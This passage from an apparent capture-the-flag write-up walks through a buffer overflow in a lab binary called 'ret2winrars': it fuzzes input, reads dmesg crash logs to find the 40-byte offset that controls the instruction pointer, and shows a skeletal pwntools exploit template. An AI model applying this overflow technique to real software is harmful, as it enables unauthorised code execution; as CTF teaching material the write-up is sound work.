 Increasing to 50 `A's` does the trick, time to consult the `dmesg` output (I use `dmesg | tail -n 5`):

```
[ 6200.617483] ret2winrars[18385]: segfault at 4141414141 ip 0000004141414141 sp 00007ffd5d06d4f0 error 14 in libc-2.31.so[7f3988134000+25000]
[ 6200.617497] Code: Unable to access opcode bytes at RIP 0x4141414117.
```

So this tells us a few things:

- 41 is our A character
- `ip` is the instruction pointer, which is at the address where code execution should continue (for 64 bit architectures this is the `rip` register, and for 32 bit it is `eip`)
- We overwrote the whole address, time to find where the address is exactly 0

```
./ret2winrars 
Hello, welcome to the WinRaRs!
Please enter your WinRaR license key to get access: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAB
Segmentation fault
```

This is input of 40 A's and a single B (0x42), when consulting dmesg we can see the following:

```
[ 6324.281990] ret2winrars[18397]: segfault at 400042 ip 0000000000400042 sp 00007ffe25fd0e90 error 15 in ret2winrars[400000+1000]
[ 6324.281999] Code: 80 10 40 00 00 00 00 00 40 00 00 00 00 00 00 00 18 3a 00 00 00 00 00 00 00 00 00 00 40 00 38 00 0b 00 40 00 1d 00 1c 00 06 00 <00> 00 04 00 00 00 40 00 00 00 00 00 00 00 40 00 40 00 00 00 00 00
```

Focusing on the first line, not even a single 41 appears in the instruction pointer, meaning this is potentially our offset! Time to write our exploit script.

## Exploitation

To solve pwn challenges, [pwntools](https://docs.pwntools.com/en/stable/) is a great tool for pythonistas (and others). I use the following boilerplate for binary challenges:

```python
#!/usr/bin/env python3

from pwn import *

local = True

if local:
	elf = ELF('<binary>')
	p = elf.process()
else:
	p = remote('<address>', port)

junk = b'A'*0xdeadbeef

payload = [
	
	
]


b''.join(payload)

print( p.recvuntil('> ').decode(encoding='ascii') )

p.sendline(payload)
print(payload)
```